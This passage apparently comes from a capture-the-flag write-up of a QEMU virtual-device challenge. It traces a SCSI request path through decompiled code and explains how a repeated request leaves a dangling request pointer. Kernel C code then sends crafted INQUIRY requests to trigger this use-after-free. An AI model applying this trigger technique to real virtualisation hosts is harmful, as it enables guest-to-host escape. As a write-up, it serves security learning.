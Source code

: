 Then the `scsi_req_continue` will call 
1. req->ops->read_data() 
2. scsi_disk_emulate_read_data
3. scsi_req_data()
4. req->bus->info->transfer_data()
5. ctf_dma_write()
6. if ctf_dma_write() returns non-zero, calls scsi_req_continue, then scsi_req_complete.

Lets check what ctf_dma_write did.
```
int __cdecl ctf_dma_write(CTFState *opaque, char *buf, int len)
{
  int result; // eax
  int lena; // [rsp+Ch] [rbp-24h]

  lena = len;
  if ( opaque->dma_buf )
  {
    opaque->state |= 0x40u;
    opaque->dma_need = len;
    result = 0;
  }
  else
  {
    opaque->dma_buf = (char *)malloc(len);
    if ( opaque->dma_buf )
    {
      opaque->dma_buf_len = lena;
      memcpy(opaque->dma_buf, buf, lena);
      opaque->state |= 8u;
      result = 1;
    }
    else
    {
      result = 0;
    }
  }
  return result;
}
```
For the first request, this will take the branch that mallocs and returns 1, meaning ctf_transfer_data will call scsi_req_continue and ctf_request_complete (nulling out cur_req).

However if we send a 2nd identical request, ctf_dma_write will return 0, meaning ctf_request_complete will not be called. This means state->cur_req won’t be zeroed out, and we’ll be able to cancel it to free it (by sending a subsequent request with no matching device).

```C
struct req_head* req = kzalloc(sizeof(struct req_head)+6, GFP_KERNEL);
req->buf_len = 6; // INQUIRY has length 6
req->data[0] = 0x12; // INQUIRY request
req->data[1] = 0x40; // data[1] and data[2] make it so scsi_disk_emulate_inquiry
req->data[2] = 0;    // (called from scsi_disk_emulate_command) doesnt fail and return -1
req->data[3] = 0x17; // xfer is 16bit from data[3:4], will be 0x1734
req->data[4] = 0x34; // (determines how much data transferred/malloced)
req->data[5] = 0x51; // last byte is...?? doesnt seem used no idea dont care
auth();
send_req(req); // first request completes
send_req(req); // this one doesn't complete, **because opaque->dma_buf has value, it will return 0**

req->target_bus = 17; // no matching device
send_req(req); // cancels previous but doesnt get enqueued, cur_req dangling to previous request
```
